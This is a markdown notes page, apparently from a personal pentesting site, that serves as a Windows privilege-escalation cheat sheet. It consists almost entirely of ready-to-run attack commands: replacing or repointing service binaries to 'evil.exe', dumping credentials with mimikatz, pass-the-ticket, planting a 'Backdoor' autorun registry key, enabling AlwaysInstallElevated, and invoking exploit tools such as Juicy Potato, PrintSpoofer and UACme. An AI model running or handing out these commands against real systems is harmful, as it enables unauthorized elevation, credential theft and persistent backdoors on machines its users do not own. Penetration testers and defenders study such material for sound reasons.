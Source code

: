 ```yaml
---
layout: notes
permalink: /notes/windows/privesc/
title: Windows Privilege Escalation
---
```


# Windows Privilege Escalation

## Service Misconfigurations
```powershell
# Query service config
sc qc <service>

# Get service path
wmic service get name,displayname,pathname,startmode

# Check permissions
accesschk.exe -uwdqs <service>

# Replace service binary
copy /b c:\\evil.exe c:\\windows\\system32\\service.exe

# Restart service
net stop <service>
net start <service>

# Modify service path
sc config <service> binPath= "c:\\evil.exe"
```

## Unquoted Service Paths
```powershell
# Find unquoted paths
wmic service get name,pathname | findstr /i " "

# Exploit unquoted path
sc config <service> binPath= "c:\\evil.exe c:\\windows\\system32\\cmd.exe"
```

## Token Manipulation
```powershell
# List privileges
whoami /priv

# Run as another user
Runas /user:<admin> cmd.exe

# Dump credentials
mimikatz.exe "sekurlsa::logonpasswords"

# Pass-the-Ticket
mimikatz.exe "kerberos::ptt <ticket.kirbi>"

# Token theft
Incognito.exe
```

## Registry Exploits
```powershell
# Check auto-run keys
reg query HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run
reg query HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run

# Add auto-run key
reg add HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /v Backdoor /t REG_SZ /d c:\\evil.exe

# Check AlwaysInstallElevated
reg query HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer
reg query HKCU\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer

# Add elevated install key
reg add HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1
```

## Tools
- PowerUp: ``` Import-Module .\PowerUp.ps1; Invoke-AllChecks ```
- SharpUp: ``` SharpUp.exe ```
- Watson: ``` Watson.exe ```
- Juicy Potato: ``` juicyPotato.exe -l 1337 -p c:\\windows\\system32\\cmd.exe -t * ```
- Seatbelt: ``` Seatbelt.exe -group=all ```
- PowerSploit: ``` Import-Module .\PowerSploit.ps1; Get-ProcessTokenPrivilege ```
- UACme: ``` uacme.exe ```
- PrintSpoofer: ``` PrintSpoofer.exe -i -c cmd ```

## Local PrivEsc MindMap
<iframe src='https://www.xmind.app/embed/YFFcN8/' width='750' height='422' frameborder='0' scrolling='no' allowfullscreen="true"></iframe>